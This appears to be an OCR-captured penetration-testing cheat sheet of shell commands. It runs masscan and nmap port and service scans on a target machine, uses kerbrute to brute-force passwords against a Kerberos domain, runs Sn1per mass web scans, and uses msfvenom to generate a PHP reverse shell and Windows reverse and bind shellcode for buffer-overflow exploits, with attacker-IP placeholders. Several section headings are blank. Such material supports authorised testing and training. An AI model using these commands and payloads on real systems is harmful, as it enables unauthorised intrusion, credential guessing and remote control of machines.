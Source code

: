 
##  find open ports for one machine
masscan --rate 1000 --interface tap0 --router-ip $ROUTER_IP -p1-65535,U:1-65535 $MACHINE_IP --banners -oL $MACHINE_IP/scans/masscan-ports.lst


##  TCP grab banners and services information
TCP_PORTS=$(cat $MACHINE_IP/scans/masscan-ports.lst| grep open | grep tcp | cut -d " " -f3 | tr '\n' ',' | head -c -1)

[ "$TCP_PORTS" ] && sudo nmap -sT -sC -sV -v -Pn -n -T4 -p$TCP_PORTS --reason --version-intensity=5 -oA $MACHINE_IP/scans/nmap_tcp $MACHINE_IP



##  UDP grab banners and services information
UDP_PORTS=$(cat $MACHINE_IP/scans/masscan-ports.lst| grep open | grep udp | cut -d " " -f3 | tr '\n' ',' | head -c -1)


[ "$UDP_PORTS" ] && sudo nmap -sU -sC -sV -v -Pn -n -T4 -p$UDP_PORTS --reason --version-intensity=5 -oA $MACHINE_IP/scans/nmap_udp $MACHINE_IP


##  
cat combos.lst | ./kerbrute -d lab.ropnop.com bruteforce




##  
sniper -f ips.txt -m massweb -w output.txt


##  
sniper -t <IP> -m webscan -w output.txt




##  MSFVenom - Generating Payloads


##  PHP reverse shell payload
msfvenom -p php/reverse_php LHOST=YOURIPADDRESS LPORT=443 > shell.php


##  Windows reverse shellcode for python script buffer overflow
msfvenom -p windows/shell_reverse_tcp LHOST=YOURIPADDRESS LPORT=443 -f c -e x86/alpha_mixed -b "\x00\x04\xcd\x77\x3f"


##  Windows bind shellcode for python script buffer overflow
msfvenom -p windows/shell_bind_tcp LPORT=444 -f c -e x86/shikata_ga_nai -b  "\x00\x04\xcd\x77\x3f"
